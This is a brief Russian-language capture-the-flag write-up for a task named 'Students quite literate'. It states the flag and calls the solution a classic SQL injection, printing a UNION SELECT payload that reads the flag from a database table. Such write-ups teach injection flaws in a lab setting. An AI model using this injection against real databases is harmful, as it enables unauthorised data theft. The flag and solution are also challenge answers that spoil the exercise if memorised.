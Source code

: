 ## Students quite literate
В этом описании для вас не будет полезной информации, просто решите этот таск.  
<small>Описание вообще кто-то читает?</small> 
[Ссылка]

## Флаг
SICAMP{n0_eDucation_syst3m_1s_flawle55_hebfyf}

## Решение
Классическая sql инъекция. Получить флаг можно сделав запрос
```eweweewwe' UNION SELECT flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag,flag FROM flag --``` 